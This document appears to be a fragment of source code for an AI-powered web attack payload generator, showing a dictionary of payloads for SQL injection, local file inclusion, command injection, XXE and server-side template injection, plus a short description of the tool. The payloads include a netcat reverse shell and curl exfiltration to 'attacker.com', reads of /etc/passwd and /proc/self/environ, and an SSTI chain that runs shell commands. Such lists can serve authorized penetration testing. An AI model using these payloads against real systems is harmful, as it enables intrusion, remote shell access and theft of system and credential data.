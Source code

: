 ```python
                    "' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--"
                ]
            },
            "lfi": {
                "basic": ["../../../etc/passwd", "..\\..\\..\\windows\\system32\\drivers\\etc\\hosts"],
                "advanced": [
                    "....//....//....//etc/passwd",
                    "..%2F..%2F..%2Fetc%2Fpasswd",
                    "....\\\\....\\\\....\\\\windows\\\\system32\\\\drivers\\\\etc\\\\hosts",
                    "/var/log/apache2/access.log",
                    "/proc/self/environ",
                    "/etc/passwd%00"
                ]
            },
            "cmd_injection": {
                "basic": ["; whoami", "| whoami", "& whoami", "`whoami`"],
                "advanced": [
                    "; cat /etc/passwd",
                    "| nc -e /bin/bash attacker.com 4444",
                    "&& curl http://attacker.com/$(whoami)",
                    "`curl http://attacker.com/$(id)`"
                ]
            },
            "xxe": {
                "basic": [
                    "<!DOCTYPE foo [<!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><foo>&xxe;</foo>",
                    "<!DOCTYPE foo [<!ENTITY xxe SYSTEM \"http://attacker.com/\">]><foo>&xxe;</foo>"
                ]
            },
            "ssti": {
                "basic": ["{{7*7}}", "${7*7}", "#{7*7}", "<%=7*7%>"],
                "advanced": [
                    "{{config}}",
                    "{{''.__class__.__mro__[2].__subclasses__()}}",
                    "{{request.application.__globals__.__builtins__.__import__('os').popen('whoami').read()}}"
                ]
            }
        }
```

## Purpose & Behavior
AI-powered payload generation providing:
- **Contextual Payload Generation:** Generate payloads based on target context and technology
- **Multi-attack Support:** Support for XSS, SQLi, LFI, Command Injection, XXE, and SSTI attacks
- **Complexity Levels:** Basic, advanced, and bypass payload variants
- **Risk Assessment:** Automated risk level assessment for generated payloads
